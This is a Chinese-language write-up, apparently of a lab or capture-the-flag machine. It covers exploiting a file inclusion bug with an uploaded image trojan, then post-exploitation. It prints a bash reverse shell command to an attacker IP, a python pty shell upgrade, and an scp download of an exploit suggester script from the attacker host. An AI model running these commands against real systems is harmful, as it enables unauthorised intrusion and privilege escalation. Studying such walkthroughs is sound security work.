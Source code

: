 从刚刚的的代码审计中，发现了一个文件包含漏洞。因为代码没有进行二次渲染，所以这里直接上传一个图片马

![image-20221021225712144](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021225712144.png)

图片马上传成功，并获取图片地址

![image-20221021225729401](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021225729401.png)

![image-20221021225826978](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021225826978.png)

验证图片马是否正常运行

![image-20221021225912353](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021225912353.png)

使用反弹shell

首先在kali启动4444监听端口

![image-20221021232045019](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021232045019.png)

然后通过图片马，执行反弹命令

```php
bash -c "bash -i >&  /dev/tcp/192.168.66.138/1111 0>&1"
```

![image-20221021235828790](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021235828790.png)

获取用户和系统信息

![image-20221021235958736](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021235958736.png)

### 1）、漏洞扫描

使用`scp`远程下载攻击主机下的`linux-exploit-suggester.sh`工具，对该系统进行漏洞扫描

因为要输入密码，所以需要使用`python`进入交互模式

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

开始上传

```shell
www-data@indishell:/tmp$ scp shihao@192.168.235.130:/tmp/les.sh /tmp/
```

![image-20221022005248176](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221022005248176.png)

添加执行权限，并运行

```php
www-data@indishell:/tmp$ chmod +x les.sh
chmod +x les.sh
www-data@indishell:/tmp$ ./les.sh
```
